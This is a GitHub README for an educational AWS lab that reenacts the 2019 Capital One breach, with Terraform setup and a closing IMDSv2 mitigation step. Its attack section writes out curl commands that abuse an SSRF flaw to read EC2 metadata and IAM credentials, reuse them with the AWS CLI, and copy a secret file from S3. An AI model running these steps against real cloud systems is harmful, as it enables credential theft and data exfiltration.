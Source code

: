 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main.tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

```bash
terraform fmt
terraform validate
terraform plan
```

5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

```bash
curl http://<public_ip>/
```
Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"
```

3. Navigate to Credentials:
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"
```
The output will be the role name: c-demo-role


4. Steal Credentials: 
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"
```

The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:
```bash
aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo
```
Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:
```bash
aws s3 ls --profile c-demo
```

You should be able to see your unique bucket name

7. Exfiltrate Data: 
```bash
aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo
```
(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
   ```bash
   ls
   cat top_secret_file
   ```

#Mitigation

Enforce IMDSv2:
```bash
aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled
```
Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"
```
It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:

terraform destroy

